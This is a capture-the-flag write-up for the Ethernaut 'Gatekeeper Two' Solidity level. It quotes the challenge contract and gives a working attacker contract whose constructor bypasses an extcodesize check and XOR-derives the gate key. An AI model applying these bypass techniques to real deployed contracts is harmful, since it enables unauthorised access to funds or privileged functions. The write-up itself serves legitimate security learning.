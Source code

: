 # Gatekeeper Two

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
Things that might help:
* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](https://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](https://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```javascript
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Let's see, `gateOne` is the same as last level, nothing else.

`gateThree` just XOR the input message with `msg.sender` address, the result should be `uint(0)-1`.

This could be easily solved by XOR `msg.sender` address (which means the contract address you deployed) with `uint64(0)-1`, the result `_gateKey` should be qualified for `gateThree`. 

Most interesting part in this challenge is the `gateTwo`, which require `msg.sender`'s contract code size remain as zreo.

In yellow paper remind in hint:
![](https://i.imgur.com/1JaoZrJ.png)

When contract still in initialization stage, the length of everything we wrote in construct will be reguard as **zero** by `solidity`.

So, let's write our payload in our contract's construct, and simply XOR out the gateKey we needed.

```javascript
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Empty{
    function Empty(address param) public{
        GatekeeperTwo notThatEmpty = GatekeeperTwo(param);
        bytes8 _gateKey =bytes8((uint64(0) - 1) ^ uint64(keccak256(this)));
        notThatEmpty.enter(_gateKey);
    }
}
```

Deploy the contract with target instance's address as parameter.

```javascript
await contract.entrant()
```

Check the state, this might work.